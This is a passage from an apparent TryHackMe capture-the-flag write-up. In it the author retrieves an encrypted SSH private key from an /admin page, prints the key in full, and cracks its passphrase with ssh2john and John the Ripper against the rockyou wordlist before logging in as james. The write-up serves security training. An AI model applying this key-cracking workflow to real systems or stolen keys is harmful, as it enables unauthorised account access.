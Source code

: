 ## Exploitation 
After authenticating, I am presented with an RSA private key on the /admin page: 
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,9F85D92F34F42626F13A7493AB48F337

LNu5wQBBz7pKZ3cc4TWlxIUuD/opJi1DVpPa06pwiHHhe8Zjw3/v+xnmtS3O+qiN
JHnLS8oUVR6Smosw4pqLGcP3AwKvrzDWtw2ycO7mNdNszwLp3uto7ENdTIbzvJal
73/eUN9kYF0ua9rZC6mwoI2iG6sdlNL4ZqsYY7rrvDxeCZJkgzQGzkB9wKgw1ljT
WDyy8qncljugOIf8QrHoo30Gv+dAMfipTSR43FGBZ/Hha4jDykUXP0PvuFyTbVdv
BMXmr3xuKkB6I6k/jLjqWcLrhPWS0qRJ718G/u8cqYX3oJmM0Oo3jgoXYXxewGSZ
AL5bLQFhZJNGoZ+N5nHOll1OBl1tmsUIRwYK7wT/9kvUiL3rhkBURhVIbj2qiHxR
3KwmS4Dm4AOtoPTIAmVyaKmCWopf6le1+wzZ/UprNCAgeGTlZKX/joruW7ZJuAUf
ABbRLLwFVPMgahrBp6vRfNECSxztbFmXPoVwvWRQ98Z+p8MiOoReb7Jfusy6GvZk
VfW2gpmkAr8yDQynUukoWexPeDHWiSlg1kRJKrQP7GCupvW/r/Yc1RmNTfzT5eeR
OkUOTMqmd3Lj07yELyavlBHrz5FJvzPM3rimRwEsl8GH111D4L5rAKVcusdFcg8P
9BQukWbzVZHbaQtAGVGy0FKJv1WhA+pjTLqwU+c15WF7ENb3Dm5qdUoSSlPzRjze
eaPG5O4U9Fq0ZaYPkMlyJCzRVp43De4KKkyO5FQ+xSxce3FW0b63+8REgYirOGcZ
4TBApY+uz34JXe8jElhrKV9xw/7zG2LokKMnljG2YFIApr99nZFVZs1XOFCCkcM8
GFheoT4yFwrXhU1fjQjW/cR0kbhOv7RfV5x7L36x3ZuCfBdlWkt/h2M5nowjcbYn
exxOuOdqdazTjrXOyRNyOtYF9WPLhLRHapBAkXzvNSOERB3TJca8ydbKsyasdCGy
AIPX52bioBlDhg8DmPApR1C1zRYwT1LEFKt7KKAaogbw3G5raSzB54MQpX6WL+wk
6p7/wOX6WMo1MlkF95M3C7dxPFEspLHfpBxf2qys9MqBsd0rLkXoYR6gpbGbAW58
dPm51MekHD+WeP8oTYGI4PVCS/WF+U90Gty0UmgyI9qfxMVIu1BcmJhzh8gdtT0i
n0Lz5pKY+rLxdUaAA9KVwFsdiXnXjHEE1UwnDqqrvgBuvX6Nux+hfgXi9Bsy68qT
8HiUKTEsukcv/IYHK1s+Uw/H5AWtJsFmWQs3bw+Y4iw+YLZomXA4E7yxPXyfWm4K
4FMg3ng0e4/7HRYJSaXLQOKeNwcf/LW5dipO7DmBjVLsC8eyJ8ujeutP/GcA5l6z
ylqilOgj4+yiS813kNTjCJOwKRsXg2jKbnRa8b7dSRz7aDZVLpJnEy9bhn6a7WtS
49TxToi53ZB14+ougkL4svJyYYIRuQjrUmierXAdmbYF9wimhmLfelrMcofOHRW2
+hL1kHlTtJZU8Zj2Y2Y3hd6yRNJcIgCDrmLbn9C5M0d7g0h2BlFaJIZOYDS6J6Yk
2cWk/Mln7+OhAApAvDBKVM7/LGR9/sVPceEos6HTfBXbmsiV+eoFzUtujtymv8U7
-----END RSA PRIVATE KEY-----
```
I attempted to authenticate with the rsa private key (make sure to set the correct permissions with ```chmod 400 ssh_james```) as ```ssh -i ssh_james james@[THM IP]```. However, it requested a passphrase: 
```
Enter passphrase for key 'ssh_james': 
```
Therefore, I needed to use John the Ripper to crack the passphrase for me. ssh2john is a great python script within john that helps me to format the private key for use with john. 
```
./ssh2john.py ~/TryHackMe/practice/ssh_james > /home/ajread/TryHackMe/practice/ssh_james_hash.txt
```
Now that it is properly formatted, I can attempt to crack the passphrase with John the Ripper. I used rockyou as the wordlist. 
```
./john --wordlist=/home/ajread/resources/wordlists/rockyou.txt /home/ajread/TryHackMe/practice/ssh_james_hash.txt
```
The passphrase returned: 
```
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
[REDACTED]          (/home/ajread/TryHackMe/practice/ssh_james)     
1g 0:00:00:00 DONE (2022-02-17 20:32) 25.00g/s 334400p/s 334400c/s 334400C/s 100588..handball
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```
